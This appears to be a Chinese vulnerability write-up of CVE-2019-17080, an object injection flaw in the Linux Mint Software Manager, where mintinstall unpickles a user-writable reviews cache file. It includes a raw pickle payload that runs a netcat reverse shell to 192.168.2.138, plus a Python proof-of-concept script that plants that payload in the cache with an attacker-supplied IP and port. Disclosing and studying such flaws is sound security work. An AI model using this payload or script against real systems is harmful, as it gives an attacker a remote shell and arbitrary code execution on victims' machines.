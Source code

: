 ```yaml
---
title: "（CVE-2019-17080）Mintinstall object injection"
id: zhfly3020
---
```


# （CVE-2019-17080）Mintinstall object injection

## 一、漏洞简介

Linux mint软件管理器（v 7.9.5 / 9）由于配置错误而导致对象注入和任意代码执行。

Linux Mint Software Manager（v 7.9.5 / 9）由于配置错误而导致我们执行对象注入和任意代码

## 二、漏洞影响

Version: 7.9.9

## 三、复现过程

```
mintinsall 
```

我们运行Mint软件管理器还会检查是否有新注释，如果[new-reviews.list](https://community.linuxmint.com/data/) 下载中有 新注释并写入文件。

如果有新评论，请从文件[new-reviews.list](https://community.linuxmint.com/data/)下载并写入文件

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

```
code mintinstall.py 
```

首次启动软件管理器时，它会从评论模块调用ReviewCache（）类。

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

### 它如何处理数据？

```
code reviews.py 
```

当ReviewCache类启动（init）时，它将调用_load_cache（）函数。

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

加载缓存功能读取REVIEWS_CACHE变量中的文件，并在pickle模块的帮助下，对文件中的数据进行反序列化并在内存中保存一些值

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

当我检查文件时，看起来好像可以写文件。

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

[Pickle](https://docs.python.org/3.6/library/pickle.html) 因为我们可以使用模块执行序列化/反序列化操作，所以可以包含模块并使用reduce方法执行任意代码。

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

如果您尝试反序列化文件，则我们的恶意代码将起作用。

```
cos 
system 
(S'nc -e /bin/sh 192.168.2.138 4545' 
tR.
>>modül adı c{os}
>> fonksiyon
( >> işaretleyici nesnesi 
S >> tırnak sonuna kadar okuyup stack'e at
tR. >> stackte olanları çagır ve sonucu stacke yerleştir. 
```

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

![alt-text](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

poc

```
import os
import sys
def shellCode(payload):
    with open(f"{os.getenv('HOME')}/.cache/mintinstall/reviews.cache","w") as wb:
        wb.write(payload)
    print("[+] Start mintinstall")
if __name__=="__main__":
    shellCode(f"""cos\nsystem\n(S"nc -e /bin/sh {sys.argv[1]} {sys.argv[2]}"\ntR.""")
else:
    print("[!] exploit.py [IP] [PORT]") 
```